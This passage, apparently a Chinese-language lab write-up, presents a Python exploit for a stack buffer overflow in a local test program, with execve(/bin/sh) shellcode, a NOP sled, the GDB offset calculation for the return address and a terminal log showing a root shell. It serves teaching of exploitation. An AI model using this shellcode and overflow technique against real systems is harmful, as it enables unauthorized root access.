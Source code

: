 
## 攻击程序

exploit.py
```
#!/usr/bin/env python

import struct
from subprocess import call 

arg1 = "hello"

ret_addr = 0xbffff594


# shellcode 
# execve(/bin/sh)
# len : 25bit
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
def conv(num):
    return struct.pack("<I",num)

arg2 = "A" * 24
arg2 += conv(ret_addr)
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 107

print "Calling vulnerable program"
call(["./vuln",arg1, arg2])
```
攻击程序的关键点是覆盖返回地址时，使用的地址是哪个？首先按passwd_buf到返回地址存放位置的偏移值确认溢出内容的存放次序，即

```
arg2 = "A" * 24
arg2 += conv(ret_addr)
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 107  #确保arg2总长度是260


```
scode的起始地址就根据存放次序来确定，这里是以passwd_buf为起点，scode的偏移是24+4+100 ，即128个字节距离。那么在GDB中就很容易计算出来返回地址的覆盖内容是：

gdb-peda$ p &passwd_buf
$2 = (char (*)[11]) 0xbffff514
gdb-peda$ p 0xbffff514+0x80
$3 = 0xbffff594

```
那么攻击程序中ret_addr的值就是0xbffff594

## 攻击测试

```
magc@magc-VirtualBox:~/workspace/sec_experiements99/6_experiment$ vim exploit.py 
magc@magc-VirtualBox:~/workspace/sec_experiements99/6_experiment$ python exploit.py 
Calling vulnerable program
Valid Passwd
#     
```

由提示符可以看到$变成#，得到一个Root权限的Shell,攻击成功


```